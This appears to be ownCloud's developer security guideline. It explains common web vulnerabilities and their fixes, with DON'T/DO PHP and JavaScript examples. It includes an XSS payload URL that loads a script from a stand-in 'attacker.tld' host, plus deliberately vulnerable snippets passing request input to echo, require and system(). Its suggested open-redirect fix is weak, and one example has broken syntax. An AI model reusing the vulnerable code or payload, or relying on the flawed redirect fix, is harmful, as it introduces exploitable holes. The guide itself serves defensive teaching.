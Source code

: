 Security Guideline
==================

.. sectionauthor:: Bernhard Posselt <nukeawhale@gmail.com>, Lukas Reschke <lukas@statuscode.ch>

This guideline highlights some of the most common security problems and how to prevent them. Please review your app if it contains any of the following security holes.

.. note:: Program defensively: for instance always check for CSRF or escape strings, even if you do not need it. This prevents future problems where you might miss a change that leads to a security hole.

.. note:: All App Framework security features depend on the call of the controller through :php:meth:`OCA\\AppFramework\\App::main`. If the controller method is executed directly, no security checks are being performed!

SQL Injection
-------------
`SQL Injection <http://en.wikipedia.org/wiki/SQL_injection>`_ occurs when SQL query strings are concatenated with variables. 

To prevent this, always use prepared queries:

.. code-block:: php

  <?php
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $query = \OCP\DB::prepare($sql);
  $params = array(1);
  $result = $query->execute($params);
  
If the App Framework is used, write SQL queries like this in the a class that extends the Mapper:

.. code-block:: php

  <?php
  // inside a child mapper class
  $sql = 'SELECT * FROM `users` WHERE `id` = ?';
  $params = array(1);
  $result = $this->execute($sql, $params);

Cross site scripting
--------------------

`Cross site scripting <http://en.wikipedia.org/wiki/Cross-site_scripting>`_ happens when you pass user input unsanitized to templates. A potential attacker might be able to inject some HTML/JavaScript into the page to steal the users session, log keyboard entries or even perform DDOS attacks on other websites or other malicious actions.

Despite of the fact that ownCloud uses Content-Security-Policy to prevent the execution of inline Javascript code developers are still required to prevent XSS. CSP is just another layer of defense that is not implemented in all web browsers.

To prevent XSS in your app you have to sanitize the templates and all javascripts which performs a DOM manipulation.

Templates
~~~~~~~~~

Let's assume you use the following example in your application:

.. code-block:: php

  <?php
  echo $_GET['username'];

An attacker might now easily send the user to app.php?username=<script src="attacker.tld"></script> to overtake the user account.

To prevent XSS in your app, **never use `echo` or its pendants** - use `p()` instead which will sanitize the input. 

.. note:: Should you ever require to print something unescaped, double check if it is really needed. If there is no other way (e.g. when including of subtemplates) use `print_unescaped`  with care.

If you use the App Framework with Twig templates everything is already escaped by default.

Javascript
~~~~~~~~~~

Avoid manipulating the HTML directly via JS, this often leads to XSS since developers seems always to forget to sanitize variables:

.. code-block:: javascript

    var html = '<li>' + username + '</li>"';

If you **really** want to use Javascript for something like this use `escapeHTML` to sanitize the variables:

.. code-block:: javascript

    var html = '<li>' + escapeHTML(username) + '</li>';

An even better way to make your app safer is to use the jQuery builtin function **$.text()**, so instead of using **$.html()**which often leads to XSS problems you should use **$.text()**

**DON'T**
.. code-block:: javascript

   messageTd.html(username);

**DO**
.. code-block:: javascript

   messageTd.text(username);

It may be wise to choose a proper JavaScript framework like AngularJS which automatically  handles the JavaScript escaping for you.

Clickjacking
------------

`Clickjacking <http://en.wikipedia.org/wiki/Clickjacking>`_ tricks the user to click into an invisible iframe to perform an arbitrary action (e.g. delete an user account)

To prevent such attacks ownCloud sends the `X-Frame-Options` header to all template responses. Don't remove this header if you don't really need it!

Code executions / File inclusions
---------------------------------
This is some of the worst things which can happen - this means that an attacker is able to include any arbitrary file on the server which often leads to a code execution where an attacker can execute arbitrary PHP code on the server.

Code executions and file inclusions can be easily prevented, in general **never** allow user input to the following functions:

* **include()**
* **require()**
* **require_once()**
* **eval()**
* **fopen()**

**DON'T**
.. code-block:: php

   <?php
       require("/includes/".$_GET['file];);

.. note:: If you have to pass user input to a potential dangerous, double check to be sure that there is no other way. If it is not possible otherwise sanitize every user parameter and ask people to audit your sanitize function.

Shell Injections
----------------

`Shell Injection <http://en.wikipedia.org/wiki/Code_injection#Shell_injection>`_ occurs if PHP code executes shell commands (e.g. running a latex compiler). Before doing this, check if there is a PHP library that already provides the needed functionality. If you really need to execute a command be aware that you have to escape every user parameter passed to one of these functions:

* **exec()**
* **shell_exec()**
* **passthru()**
* **proc_open()**
* **system()**
* **popen()**

.. note:: Please require/request additional programmers to audit your escape function.

Without escaping the user input this will allow an attacker to execute arbitary shell commands on your server.

PHP offers the following functions to escape user input:

* **escapeshellarg()**: Escape a string to be used as a shell argument
* **escapeshellcmd()**: Escape shell metacharacters

**DON'T**
.. code-block:: php

   <?php
   system('ls '.$_GET['dir']);

**DO**
.. code-block:: php

   <?php
   system('ls '.escapeshellarg($_GET['dir']));

Auth bypasses / Privilege escalations
-------------------------------------

Auth bypasses or privilege escalations happens when a not authorized user is able to perform actions which they should be not able to.

ownCloud offers three simple checks:
* **OCP\JSON::checkLoggedIn()**: Checks if the logged in user is logged in
* **OCP\JSON::checkAdminUser()**: Checks if the logged in user has admin privileges
* **OCP\JSON::checkSubAdminUser()**: Checks if the logged in user has group admin privileges

Using the App Framework, these checks are already automatically performed for each request and have to be explicitely turned off by using annotations above your controller method,  see :doc:`../app/controllers`.

Additionally always check if the user has the right to perform that action. (e.g. an user should not be able to delete other users bookmarks).

Sensitive data exposure
-----------------------

Always store user data or configuration files in safe locations, e.g. **owncloud/data/** and not in the webroot where they can be accessed by pretty anyone being able to use a webbrowser.

Cross site request forgery
--------------------------
Using `CSRF <http://en.wikipedia.org/wiki/Cross-site_request_forgery>`_ one can trick a user into executing a request that he did not want to make. Thus every POST and GET need to be protected against it (submitting a form is also a POST/GET request). The only place where no CSRF checks are needed is in the main template which is rendering the application.

To prevent CSRF in an app, be sure to call the following method at the top of all your files:

.. code-block:: php

  <?php
  
  OCP\JSON::callCheck();

If you are using the App Framework, every controller method is automatically checked for CSRF unless you explicitely exclude it by setting the @CSRFExemption annotation before the controller method, see :doc:`../app/controllers`

Unvalidated redirects
---------------------

This is more or less an annoyance than an critical security vulnerability since it may be used for social engineering or phising.

Always validate before redirecting an user if the requested URL is on the same domain or an allowed ressource.

**DON'T**
.. code-block:: php

   <?php
   header('Location:'. $_GET['redirectURL']);

**DO**
.. code-block:: php

   <?php
   header('Location: http://www.example.com'. $_GET['redirectURL']);

Get help
--------
If you need help to ensure that a function is secure please ask on our `mailing list <https://mail.kde.org/mailman/listinfo/owncloud>`_ or on our IRC channel #owncloud-dev on Freenode.
